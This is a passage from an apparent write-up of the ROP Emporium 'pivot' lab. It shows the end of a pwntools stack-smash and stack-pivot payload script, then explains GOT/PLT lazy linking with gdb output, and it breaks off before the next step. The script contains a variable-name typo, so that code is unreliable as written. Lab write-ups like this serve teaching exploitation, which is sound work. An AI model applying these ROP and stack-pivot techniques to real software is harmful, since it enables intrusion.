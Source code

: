 	buf = b"A" * offset  
	fake_ebp = b"B" * 4
	
	stack_smash_payload = [
	        buf,
	        fake_ebp,
	        eax_gadget,
	        pivot_addr,
	        pivot_gadget
	        ]
	
	stack_smash_payload = b"".join(stack_smash_payload)
	p.sendline(tack_smash_payload)
	p.interactive()
	```

# Lazy Linking

Okay sweet, we successfully pivoted the stack. Now things get a bit tricky...
We need to set up a ROP chain that will find the address of the libpivot32.so library, and then find the ret2win function within it


Remember foothold function?

	```sh
	gef➤  got
	[0x804a024] foothold_function  →  0x8048526
	```

Since foothold function is in this libpivot library, and has a got entry, that means that it is being loaded and called by the pivot32 library

One sec, is ret2win in the libpivot32.so library?

	```sh
	ubuntu@ubuntu:~/ropemporium/pivot$ strings libpivot32.so  | grep ret2win
	ret2win
	ret2win
	```

Yes:)

After using these resources...  
    [rop emporium](https://ropemporium.com/guide.html#Appendix%20A)  
	[live overflow vid](https://www.youtube.com/watch?v=kUk5pw4w0h4)

We should have a good idea of how the plt and got work together, and how lazy-linking works

Initially, since lazy-linking is used, the got entry for foothold_function just points to the plt, which then points to the `_dl_runtime_resolve_avx()` function in order to load and resolve the address of foothold_function in memory.  

In other words, the inital got entry for foothold_function just points to a bunch of instructions (used for resolution) in the plt, NOT the actual address of foothold_function.

We can see this in gdb:
